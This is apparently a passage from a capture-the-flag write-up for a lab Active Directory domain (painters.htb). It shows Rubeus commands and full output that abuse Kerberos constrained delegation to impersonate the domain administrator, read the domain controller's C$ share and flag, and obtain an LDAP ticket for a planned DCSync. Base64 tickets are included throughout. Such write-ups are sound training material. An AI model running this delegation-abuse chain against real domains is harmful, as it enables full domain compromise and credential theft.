      doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg==
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/painters.htb
  ServiceRealm             :  PAINTERS.HTB
  UserName                 :  blake
  UserRealm                :  PAINTERS.HTB
  StartTime                :  11/09/2023 15:04:34
  EndTime                  :  12/09/2023 01:04:34
  RenewTill                :  18/09/2023 15:04:34
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  XxvoH6DB0OaL4VVWMsuogQ==
  ASREP (key)              :  71DDAFA4193CAA4376AAE61BCFEAF9D5

PS C:\temp>
```

Lastly using this TGT and the "msds allowed to delegate to" we can ask for a Impersonation on behalf of Administrator on the DC:

```
PS C:\temp> ./Rubeus.exe s4u /ticket:doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg== /impersonateuser:administrator /domain:painters.htb /msdsspn:CIFS/dc.painters.htb /dc:dc.painters.htb /ptt
./Rubeus.exe s4u /ticket:doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQ4bDFBBSU5URVJTLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcGFpbnRlcnMuaHRio4IENDCCBDCgAwIBEqEDAgECooIEIgSCBB6OFZHQ8c2awNJTTL4UHNHDVM0PWdI+qLDXgeUqFI1PmjeTP1lYJsqyFQCeNe5HJAUcC4KdMLUOn15ZZNJloLDbxauehAGFABK4qfM3k1uuUpF8mDPRQ3G8WlFVKhSVV13rL3A9uojDaIDip5mhtIEYtjOWOq9HwEoKbD7jCUGodbDgpRhgH5Rm5rR3oMFddD96GPjAlK3j/CgI3PT1qgaKpPzzRwKxR6MnGQnapvcDJLBgo7T2miNfTBosxu5Cw8nECG4W1vZ/P/E3rhgCRCVT+vqO/VufF/P0HCq2LzQ0BXrf1lw60IM1yhOmqdUKhWE8hpBp0Zl9M2/LDW3Q/peU00Jw7lUE94nms4ioZoJtqca4fSx8t9gONenL9SqAaLk9uqQl72KXNaPintqzryH6zVuHXQ57hohxzwNHh94c/a1wFkmYT08ycjh56u3J0BX8T5egclOuE1gJPmd7tzYNl/2GL81/LB4L07MWdHOuj62C5UC+i/8KqJnDTnoAOfPJtCS4MH18DKr1YS8/mn15XzJ884cLM86m7jNbYbUFdU7zaib55hUa3NhXoXemGzjL2NV73MexuK3EjzOGu5TfLZCG1CjYd/jr/BqsYe5pmJhBOJpZz5kmAS/Ydj+x92blDka1PuL4LNfTL/w6HXwwMhFegsiQ8khKQ2J/pimFJat4WLkJIOBNlMB347Iapasr7Nsm79ruX2NGlnoKIXvj+O0Q6u4miG8RaIg/UZOiyr9q8kZZiFTAxSRrMAe1qbkvfyVDra7Nd/F3obMKPiejwlkUH3bZhCMwfmDvYCi3O7BvoO0Rbx+agnE21NCw1Mp/IO3M4UHigFFYlCeAg92DOMU1YKIWxFfLJuR/DVOjAf8oUJgG8daAGfzqcXLhDJnu+D3FlD0f9ngF0Bft90NDh4YvCXJEHNYnxQ26SU1a73ExMMVgXtU1GDBpmf/L3ZJMP/ArmBgVqqnzqF+6ZXpvluY18c3Wql9PKz5mEWUxmAzIOhGK2aM4Mrqh3ZPt9eCW2Reg6b6htrPDyhl1JOSimrODr/mCKPT5dnQnokweZns/c0DH67n6iwPXnZjP7xAuUyZQU0PFEZIYK0gSClU/+570JPI3XJvMO4NaAlw2ODmMPcOCtwthuIhtCccLtC57NiDrkbmeZcr/Cs7E4X1hqhtS8DjpkoHvb7+KLWcZ5lDykRk0uzyDl+nuks2N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg== /impersonateuser:administrator /domain:painters.htb /msdsspn:CIFS/dc.painters.htb /dc:dc.painters.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'blake@PAINTERS.HTB'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2self request to 192.168.110.55:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'blake@PAINTERS.HTB'
[*] base64(ticket.kirbi):

      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
      CTAHGwVibGFrZQ==

[*] Impersonating user 'administrator' to target SPN 'CIFS/dc.painters.htb'
[*] Building S4U2proxy request for service: 'CIFS/dc.painters.htb'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2proxy request to domain controller 192.168.110.55:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/dc.painters.htb':

      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
[+] Ticket successfully imported!
PS C:\temp>
```

We can check the existence of kerberos tickets now:

```
Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ PAINTERS.HTB
        Server: CIFS/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 9/11/2023 15:07:44 (local)
        End Time:   9/12/2023 1:04:34 (local)
        Renew Time: 9/18/2023 15:04:34 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
PS C:\temp>
```

And now we can surf the machine:

```
PS C:\temp> dir \\dc.painters.htb\c$
dir \\dc.painters.htb\c$


    Directory: \\dc.painters.htb\c$


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        08/05/2021     09:15                PerfLogs
d-r---        24/05/2023     07:53                Program Files
d-----        08/05/2021     10:34                Program Files (x86)
d-r---        30/12/2021     21:35                Users
d-----        11/09/2023     11:02                Windows


PS C:\temp>
```

&nbsp;

And grab another flag:

```
PS C:\temp> dir \\dc.painters.htb\c$\Users\Administrator\Desktop
dir \\dc.painters.htb\c$\Users\Administrator\Desktop


    Directory: \\dc.painters.htb\c$\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        19/10/2022     12:12             32 flag.txt


PS C:\temp> cat \\dc.painters.htb\c$\Users\Administrator\Desktop\flag.txt
cat \\dc.painters.htb\c$\Users\Administrator\Desktop\flag.txt
ZEPHYR{P41n73r_D0m41n_D0m1n4nc3}
PS C:\temp>
```

Now to run a DCSync we need to export the kirbi ticket, we start by listing the installed tickets via Rubeus:

```
C:\Temp> rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 -----------------------------------------------------------------------------------------------------
 | LUID     | UserName                     | Service                           | EndTime             |
 -----------------------------------------------------------------------------------------------------
 | 0x3e4    | pnt-svrbpa$ @ PAINTERS.HTB   | krbtgt/PAINTERS.HTB               | 12/09/2023 00:57:50 |
 | 0x3e4    | pnt-svrbpa$ @ PAINTERS.HTB   | ldap/dc.painters.htb/painters.htb | 12/09/2023 00:57:50 |
 | 0x3e4    | pnt-svrbpa$ @ PAINTERS.HTB   | cifs/DC                           | 12/09/2023 00:57:50 |
 | 0x3e4    | pnt-svrbpa$ @ PAINTERS.HTB   | cifs/dc.painters.htb              | 12/09/2023 00:57:50 |
 | 0x6cc40a | web_svc @ painters.htb       | pnt-svrbpa$                       | 11/09/2023 14:04:50 |
 | 0x3e7    | administrator @ PAINTERS.HTB | CIFS/dc.painters.htb              | 12/09/2023 01:33:10 |
 -----------------------------------------------------------------------------------------------------
```

Now here I had to perform some changes since we were allowed to ask for CIFS but we need a LDAP and we could use the /altservice to ask for LDAP instead!

```
C:\Temp> Rubeus.exe s4u /ticket:blake_tgt /impersonateuser:administrator /domain:painters.htb /msdsspn:CIFS/dc.painters.htb /dc:dc.painters.htb /ptt /outfile:"admindc_ldap.kirbi" /altservice:LDAP

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'blake@PAINTERS.HTB'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2self request to 192.168.110.55:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'blake@PAINTERS.HTB'
[*] base64(ticket.kirbi):

      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
      CTAHGwVibGFrZQ==


[*] Ticket written to admindc_ldap_administrator_to_blake@PAINTERS.HTB.kirbi

[*] Impersonating user 'administrator' to target SPN 'CIFS/dc.painters.htb'
[*]   Final ticket will be for the alternate service 'LDAP'
[*] Building S4U2proxy request for service: 'CIFS/dc.painters.htb'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2proxy request to domain controller 192.168.110.55:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'LDAP'
[*] base64(ticket.kirbi) for SPN 'LDAP/dc.painters.htb':

      doIGhjCCBoKgAwIBBaEDAgEWooIFlTCCBZFhggWNMIIFiaADAgEFoQ4bDFBBSU5URVJTLkhUQqIiMCCg
      AwIBAqEZMBcbBExEQVAbD2RjLnBhaW50ZXJzLmh0YqOCBUwwggVIoAMCARKhAwIBDaKCBToEggU2AaK2
      8CbBE+3X72eMD3RPTvcUU+2TWp+5A/pSAjkjXHrrYmu4uZsyknAUHk/CU1Px9RLUvH303NOm5gPQdM5g
      oyNUot0IBp41oZ9TY8swvFZUMgAz8AGFXFk2ANj6q7mkuy6z7OFtfRSJYDuKG8RKPo0MeCI6Cq8efzTz
      5Vkq3t122v0Lx8WNufZRRynbhV/2pWPiCrwLh7VoViJMZJkTcjdwxw/yKhxdAO9iUF0ZeOKCBcRiFz3c
